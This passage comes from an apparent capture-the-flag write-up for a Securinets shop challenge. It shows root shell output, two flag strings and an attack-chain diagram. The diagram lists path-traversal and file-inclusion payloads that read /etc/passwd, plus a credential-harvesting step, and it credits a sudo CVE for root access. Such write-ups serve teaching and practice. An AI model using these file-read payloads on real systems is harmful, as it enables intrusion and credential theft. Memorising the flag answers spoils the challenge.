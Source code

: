 ```bash
daemon:*:19829:0:99999:7:::
bin:*:19829:0:99999:7:::
sys:*:19829:0:99999:7:::
sync:*:19829:0:99999:7:::

root@b0bbbb1eca83:/# ls -la /root/
total 32
drwx------ 1 root root 4096 Oct 26 00:31 .
drwxr-xr-x 1 root root 4096 Oct 26 00:31 ..
-rw-r--r-- 1 root root 3106 Oct 15  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw-r--r-- 1 root root   48 Oct 26 00:31 root.txt
```

✅ **Full root access achieved!**

---

## Flags

### User Flag
```
Securinets{0ww_Y0u_3xpl01t3d_TH3_LF1_34SLY}
```
- **Location:** `/home/shopuser/user.txt`
- **Obtained via:** SSH access as shopuser

### Root Flag
```
Securinets{Pr1v_3sc_Thr0ugh_Sud0_1_9_16p2}
```
- **Location:** `/root/root.txt`
- **Obtained via:** CVE-2025-32463 sudo exploit

---

## Attack Chain Visualization

```
┌─────────────────────────────────────┐
│         RECONNAISSANCE              │
│   nmap -sV -sC -p- 172.19.4.10     │
│   Port 22 (SSH), Port 80 (HTTP)     │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│     WEB APPLICATION ANALYSIS        │
│   curl http://172.19.4.10/          │
│   Securinets Shop Application       │
│   /item.php, /view.php endpoints    │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│      LFI DISCOVERY & EXPLOIT        │
│   /view.php?file=/etc/passwd        │
│   /item.php?spec=....//etc/passwd   │
│   Both vulnerable to LFI!           │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│     CREDENTIAL HARVESTING           │
```